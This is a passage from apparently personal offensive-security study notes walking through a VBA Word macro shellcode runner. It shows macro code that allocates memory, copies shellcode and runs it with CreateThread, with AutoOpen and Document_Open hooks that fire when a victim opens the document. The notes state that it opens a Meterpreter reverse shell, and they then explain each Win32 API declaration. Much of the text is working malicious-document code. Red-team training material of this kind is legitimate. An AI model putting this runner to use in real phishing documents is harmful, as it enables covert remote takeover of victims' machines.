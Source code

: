 ```vb
    Next counter

    ' Execute the shellcode
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

![[Pasted image 20240530173504.png]]

When executed, the shellcode runner calls back to the Meterpreter listener and opens the reverse shell in memory. 

This approach is rather low-profile. When the victim closes MS Word, this shell will die. 

### Step-by-step explanation
##### Declarations Win32 APIs

```vb
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal destAddr As LongPtr, ByRef sourceAddr As Any, ByVal length As Long) As LongPtr
Private Declare PtrSafe Function FlsAlloc Lib "KERNEL32" (ByVal callback As LongPtr) As LongPtr
```

- **[Sleep](https://learn.microsoft.com/en-us/search/?scope=Desktop&terms=VirtualAlloc%20Kernel32)**: Pauses the execution of the script for a specified number of milliseconds.
- **[CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)**: Creates a thread to execute within the virtual address space of the calling process.
- **[VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)**: Allocates memory in the address space of the calling process with specified attributes.
- **[RtlMoveMemory](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)**: Copies a block of memory from one location to another.
- **[FlsAlloc](https://learn.microsoft.com/en-us/windows/win32/api/fibersapi/nf-fibersapi-flsalloc)**: Allocates a fiber local storage (FLS) index.

##### Main Macro Function

```vb
Sub MyMacro()
    Dim allocRes As LongPtr
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
```
